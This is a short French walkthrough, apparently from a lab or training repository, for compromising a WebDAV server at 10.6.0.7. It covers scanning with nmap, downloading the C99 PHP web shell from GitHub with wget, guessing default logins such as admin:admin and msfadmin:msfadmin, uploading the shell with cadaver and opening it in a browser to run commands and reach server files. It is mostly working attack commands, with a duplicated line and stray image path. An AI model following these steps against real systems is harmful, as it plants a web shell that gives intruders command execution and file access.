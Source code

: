 Vérifier si WebDAV est activé:

Scanner avec Nmap
```bash
nmap -p 80 --script=http-webdav-scan 10.6.0.7
```
Si WebDAV est actif, tu verras :
WebDAV is enabled

Télécharge le C99 PHP Shell avec wget :

```bash
wget https://raw.githubusercontent.com/phpwebshell/c99shell/refs/heads/main/c99.php -O c99.php
```
Cela va enregistrer le fichier c99.php localement.

Utilise Cadaver, un client WebDAV, pour envoyer le shell à la cible.

```bash
cadaver http://10.6.0.7/dav
```
Si le serveur demande un login, essaye :

admin:admin

msfadmin:msfadmin

webdav:webdav

Une fois connecté dans cadaver, tape :

```bash
put c99.php
```
Si l’upload réussit, vérifie avec :

```bash
ls
```

Dans ton navigateur, ouvre :

http://10.6.0.7/dav/c99.php <br>

![Cela affichera l’interface de C99 Shell, qui te permet](Images/davweb.png)

Si WebDAV est actif, tu verras :

D’exécuter des commandes (system, exec, shell_exec)
D’accéder aux fichiers du serveur
D’uploader et télécharger des fichiers